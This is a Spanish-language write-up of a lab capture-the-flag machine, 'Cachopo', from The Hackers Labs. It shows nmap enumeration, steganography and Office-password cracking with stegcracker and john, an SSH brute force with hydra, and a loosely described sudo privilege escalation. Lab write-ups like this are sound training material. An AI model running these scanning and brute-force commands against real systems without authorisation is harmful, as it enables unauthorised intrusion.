 # CTF Write-up: Cachopo – The Hackers Labs

## Introducción

En este reto CTF, se trabajó sobre la máquina **Cachopo** del laboratorio de The Hackers Labs. Este desafío abarca múltiples técnicas ofensivas como:

- Enumeración de red.
- Esteganografía en archivos.
- Ataques de fuerza bruta.
- Escalada de privilegios.

A través de una correcta identificación de configuraciones erróneas y análisis detallado, se logró comprometer por completo el sistema objetivo. Este write-up documenta cada paso seguido para lograr el acceso a nivel **root**.

---


## 1. Enumeración de Red

### Escaneo de dispositivos en red

```bash
arp-scan -I eth0 --localnet
```
## Uso de NMAP
```bash
nmap -p- -sCV --open -sS --min-rate 5000 -vvv -n -Pn 192.168.101.128
``` 

![nmap1](Images/cachopo_nmap1.png)

![nmap2](Images/cachopo_nmap2.png)

### Descubrimiento de hosts activos

```bash
nmap -sP 10.0.2.0/24
```
![Host Activos](Images/host_activos.png)

### Escaneo detallado de puertos y servicios

```bash
nmap -sV -sC -p- 10.0.2.20
```


**Resultado**:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3
80/tcp open  http    Apache httpd 2.4.61
```

- **Puerto 22**: SSH.
- **Puerto 80**: HTTP (con redirección a `cachopo.thl`).

---

## 2. Análisis del Servicio Web

### Acceso inicial

- El sitio web redireccionaba a `http://cachopo.thl/`.
- Se añadió `10.0.2.20 cachopo.thl` a `/etc/hosts`.

### Descarga de archivo sospechoso

- Se descargó una imagen JPG desde el sitio.
- La imagen estaba protegida y contenía información oculta.

---

## 3. Esteganografía

###  Uso de StegCracker

```bash
stegcracker imagen.jpg /usr/share/wordlists/rockyou.txt
```

**Contraseña obtenida**: `doggies`

- Se extrajo un archivo oculto desde la imagen.
- Dentro, se encontró un archivo llamado `Cocineros`.

---

## 4. Análisis del Archivo “Cocineros”

### Verificación de tipo de archivo

```bash
file Cocineros
```

→ Se detectó como archivo `.docx`.

### Extracción de hash con `office2john`

```bash
office2john Cocineros > hash.txt
```

### Ataque de fuerza bruta

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Contraseña recuperada**: `horse1`

---

## 5. Análisis del Documento

- Al abrir el documento (`Cocineros.docx`) con LibreOffice, se encontraron **tres nombres**.

Estos se usaron como posibles usuarios para ataque SSH:

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.0.2.20 -t 4
```

---

## 6. Acceso a SSH

Una vez hallado el usuario y contraseña correctos, se accedió al sistema vía SSH:

```bash
ssh usuario@10.0.2.20
```

---

## 7. Escalada de Privilegios

### Ver comandos con `sudo`:

```bash
sudo -l
```

- Se identificó un **binario vulnerable** con permisos sudo.

### Ejecución del binario vulnerable

- Al ejecutarlo, se logró acceso a **root** gracias a una mala configuración de permisos.

---

## 🏁 8. Conclusión

Este CTF nos permitió aplicar varias técnicas clave de pentesting:

- Enumeración de red y servicios.
- Esteganografía aplicada.
- Ataques de fuerza bruta a servicios.
- Escalada de privilegios basada en binarios vulnerables.

📢 ¡Acceso root conseguido!

---

## 📷 Evidencia





